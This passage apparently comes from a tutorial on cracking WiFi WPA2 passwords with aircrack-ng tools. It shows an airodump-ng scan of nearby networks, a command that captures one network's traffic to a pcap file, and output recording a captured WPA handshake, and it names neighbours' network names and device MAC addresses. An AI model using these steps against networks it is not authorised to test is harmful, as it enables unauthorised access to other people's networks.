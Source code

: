 ```


CH 14 ][ Elapsed: 1 min ][ 2021-01-23 18:18 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 BC:C0:0F:D2:C2:A8   -1        0        2    0  11   -1   WPA              <length:  0>                              
 F0:D1:A9:16:0A:28  -12       42        6    1   6  130   WPA2 CCMP   PSK  Sherwin's Wi-Fi Network                   
 3C:84:6A:A7:EB:B0  -30       45       12    0  10  195        CCMP   PSK  <length:  0>                              
 42:84:6A:A7:EB:B0  -30       52        0    0  10  195   WPA2 CCMP   PSK  <length:  0>                              
 BC:98:89:9D:3C:58  -38       44        6    0  11  130   WPA2 CCMP   PSK  PLDTHOMEFIBR-SHEN                         
 3E:77:E6:88:83:E2  -48       46        0    0   2  130   WPA2 CCMP   PSK  DIRECT-T5-BRAVIA                          
 E4:AB:89:82:82:03  -68       28       18    0   4  130   WPA2 CCMP   PSK  GlobeAtHome-2.4G-828203                   
 00:25:00:FF:94:73   -1        0        0    0  -1   -1                    <length:  0>                              
 8C:25:05:E1:7D:34  -71        6        0    0   1  270   WPA  CCMP   PSK  B315_17D34                               
```

4. Generate the Traffic that will be used

```
# airodump-ng -c 6 --bssid F0:D1:A9:16:0A:28 -w /home/sherwinowen/Desktop/wifi/bf_test wlan0mon
```

- -w name of the file that will be generated, the pcap will be saved in the current working direcory where the command was run at unless the path is specified.

- -bssid  specifies the bssid <From the output of the previous command> of the WiFi you wish to crack its passwords.

- -channel specifies the channel to listen on.

- -wlan0mon specifies the interface to capture traffic on.

  

Output

```
   CH 11 ][ Elapsed: 18 mins ][ 2021-01-23 21:44 ][ WPA handshake: BC:98:89:9D:3C:58 
  
   BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
  
   BC:98:89:9D:3C:58  -42  98     2860   388479  144  11  130   WPA2 CCMP   PSK  PLDTHOMEFIBR-SHEN                     
  
   BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
  
   BC:98:89:9D:3C:58  E4:B3:18:08:C9:79  -22    0e- 0e     0    34896  EAPOL                                            
   BC:98:89:9D:3C:58  8E:57:89:77:47:F4  -42    1e-24      0     5992                                                   
   BC:98:89:9D:3C:58  C8:85:50:E8:88:C4  -50    0e-24      6   135995                                                   
   BC:98:89:9D:3C:58  5C:1D:D9:4B:3E:0C  -56    0e- 0e     0   157853  
```
